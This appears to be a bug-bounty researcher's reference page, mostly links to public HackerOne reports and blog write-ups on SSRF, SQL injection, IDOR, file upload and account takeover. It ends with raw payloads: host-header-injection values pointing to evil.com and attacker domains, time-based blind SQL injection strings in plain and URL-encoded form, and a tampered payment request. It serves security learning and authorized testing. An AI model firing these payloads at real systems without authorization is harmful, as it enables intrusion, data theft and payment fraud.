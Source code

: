 
```
https://bugcrowd.com/sorare
https://bugcrowd.com/kiteworks
https://medium.com/@bathinivijaysimhareddy/tale-of-account-takeovers-part-1-b24e1f3c3187
https://hackerone.com/reports/1356845

一个沙雕
https://hackerone.com/jaka_tingkir?type=user
有很多dos的报告
https://hackerone.com/cs_money/hacktivity?type=team
```

# Bug Bounty Reference

### sqli
- [My Bug Bounty Journey and My First Critical Bug — Time Based Blind SQL Injection](https://marxchryz.medium.com/my-bug-bounty-journey-and-my-first-critical-bug-time-based-blind-sql-injection-aa91d8276e41)

### SSRF 
- [入门](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978)
- [入门](https://blog.detectify.com/2019/01/10/what-is-server-side-request-forgery-ssrf/)
- [SSRF in api.slack.com, using slash commands and bypassing the protections.](https://hackerone.com/reports/381129)
- [Vimeo SSRF with code execution potential.] (https://infosecwriteups.com/vimeo-ssrf-with-code-execution-potential-68c774ba7c1e)
- [Chain of hacks leading to Database Compromise!](https://logicbomb.medium.com/chain-of-hacks-leading-to-database-compromise-b2bc2b883915)
- [Bypass of the SSRF protection in Event Subscriptions parameter.](https://hackerone.com/reports/386292)
- [$1.000 SSRF in Slack](https://elbs.medium.com/1-000-ssrf-in-slack-7737935d3884) by Elber Andre
- [SSRF’s up! Real World Server-Side Request Forgery](https://www.shorebreaksecurity.com/blog/ssrfs-up-real-world-server-side-request-forgery-ssrf/)
- [Exploiting SSRF in AWS Elastic Beanstalk](https://notsosecure.com/exploiting-ssrf-aws-elastic-beanstalk) by notsosecure
- [Stored XSS, and SSRF in Google using the Dataset Publishing Language](https://s1gnalcha0s.github.io/dspl/2018/03/07/Stored-XSS-and-SSRF-Google.html) by Craig Arendt
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876) by 0xacb
- [Escalating SSRF to RCE](https://generaleg0x01.com/2019/03/10/escalating-ssrf-to-rce/)
- [Unauthenticated blind SSRF in OAuth Jira authorization controller](https://hackerone.com/reports/398799)
- 

### Direct Object Reference (IDOR)
- [IDOR for X-Pid header allowed user with observer role to elevate privileges for SQS service of MCS (sqs.mcs.mail.ru) by using role from the different project.](https://hackerone.com/reports/1177451) by mrd0x1

### Unrestricted File Upload
- [Shell upload in http://widget.support.my.com/](https://hackerone.com/reports/317043) by danila
- [Unrestricted file upload on [ambassador.mail.ru]](https://hackerone.com/reports/854032) by organdonor

### Authentication Bypass
- [Improper Authentication - any user can login as other user with otp/logout & otp/login](https://hackerone.com/reports/921780) by korniltsev
- [Change any Uber user's password through /rt/users/passwordless-signup - Account Takeover (critical)](https://hackerone.com/reports/143717) by mongo
- [Account Takeover at worki.ru](https://hackerone.com/reports/725707) by r0hack
- [Forgot Password Page SMS Brute Force could lead to Account Takeover using Android/IOS app "About the house" via api.prodom.smart.space](https://hackerone.com/reports/944392) by jayesh25
- [Account takeover through password reset in cups.mail.ru](https://hackerone.com/reports/843160) by weev3kyaw
- [Lack of rate limitation on careers site allows the attacker to brute force the verification code](https://hackerone.com/reports/1075827) by iambouali
- [Full account takeover of any user through reset password](https://hackerone.com/reports/1175081) by saajanbhujel
- [Password reset link injection allows redirect to malicious URL](https://hackerone.com/reports/281575) by cablej 
- [Password Reset - query param overrides postdata](https://hackerone.com/reports/96636) by reecer

### Business Logic Flaw
- [Modify in-flight data to payment provider Smart2Pay](https://hackerone.com/reports/1295844) by drbrix
```
Amount=2000&CustomerEmail=brixamount100abc%40███████&Hash=███
Amount2=000&CustomerEmail=brix&amount=100&ab=c%40██████████&Hash=█████████
```

### Miscellaneous
- [Bypass Rate Limits on app.snapchat.com API Endpoint via X-Forwarded-For Header](https://hackerone.com/reports/727487) by sicarius
- [Client IP Spoofing using "X-Forwarded-For: 127.0.0.1" on "studio-app.snapchat.com" exposing bucket details](https://hackerone.com/reports/382678) by damian89
- [Error Page Content Spoofing or Text Injection](https://hackerone.com/reports/1245051) by princej_76
- [Password reset link not expiring after changing password in settings](https://hackerone.com/reports/1288898) by blackbibin


### recon win 
- [API on campus-vtc.com allows access to ~100 Uber users full names, email addresses and telephone numbers.](https://hackerone.com/reports/580268) by healdb
- [Administrator access to a Django Administration Panel on *.sc-corp.net via bruteforced credentials](https://hackerone.com/reports/128114) by shubs


host-header-injection
```
Host: example.com?.mavenlink.com
X-Forwarded-Host: evil.com
Referrer: https://evil.com
localhost.attacker.com or localhostattacker.com
Host: redacted.com?anythin<b>imran</b> or Host: redacted.com?"><a href='evil.com
```

SQL INJECT
```
'and(select*from(select+sleep(30))a/**/union/**/select+1)='
%27and%28select%2Afrom%28select%2Bsleep%2830%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27
'XOR(if(now()=sysdate(),sleep(30),0))OR'
%27XOR(if(now()%3dsysdate(),sleep(30),0))OR%27
"and(select*from(select+sleep(30))a/**/union/**/select+1)="
%22and%28select%2Afrom%28select%2Bsleep%2830%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%22
"XOR(if(now()=sysdate(),sleep(30),0))OR"
%22XOR(if(now()%3dsysdate(),sleep(30),0))OR%22
```


